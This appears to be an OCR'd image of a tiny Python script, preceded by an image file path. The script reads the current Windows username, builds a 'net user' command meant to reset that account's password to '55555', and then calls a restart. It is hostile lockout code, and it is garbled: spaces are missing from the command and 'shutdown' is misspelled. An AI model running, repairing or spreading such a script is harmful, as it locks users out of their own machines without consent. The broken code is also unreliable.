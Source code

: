 import os
user = os.environ['USERNAME']
code = "net user"+user+"55555"
os.system(code)
os.system("shotdown -r -t5")
